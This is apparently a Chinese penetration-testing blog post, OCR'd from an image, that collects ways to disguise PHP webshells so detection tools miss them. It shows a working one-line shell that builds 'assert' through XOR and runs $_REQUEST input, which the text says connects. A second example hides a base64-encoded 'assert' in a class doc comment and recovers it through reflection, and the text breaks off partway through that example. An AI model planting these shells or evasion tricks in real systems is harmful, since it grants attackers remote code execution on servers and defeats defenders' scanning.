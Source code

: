 # 原创
：  渗透测试 | php的webshell绕过方法汇总

# 渗透测试 | php的webshell绕过方法汇总

1.php的异或运算

```
$a="~+d()"^"!{+{}"
```

这个表示了$a=这两个字符串之间进行一个异或运算<br/> 运算异或运算符，按二进制位进行异或运算<br/> 这里的运算会把符号转化为ascii码，再转化为二进制，再转化为十进制进行运算，再把结果转化为ascii码<br/> 通过这个转换的方式来绕过检测

```
&lt;?php

$a= ("!"^"@").'ssert';

$a($_REQUEST[x]);

?&gt;
```

测试可以成功连接

#### 2.通过获取注释去绕过

```
&lt;?php



/**

* YXNzZXJ0YmZnZmc=

*/

class Example

{

public function fn()

{

}

}

通过一个空的类去获取，

$reflector = new ReflectionClass('Example'); //这里为通过反射获取类的注释



$zhushi = substr(($reflector-&gt;getDocComment()), 7, 12);//然后去截断获取注释里的字符,注意getDocComment只能通过文件最开始的类来调用才会把注释内容显示

$zhushi = base64_decode($zhushi);

$zhushi = substr($zhushi, 0, 6);


```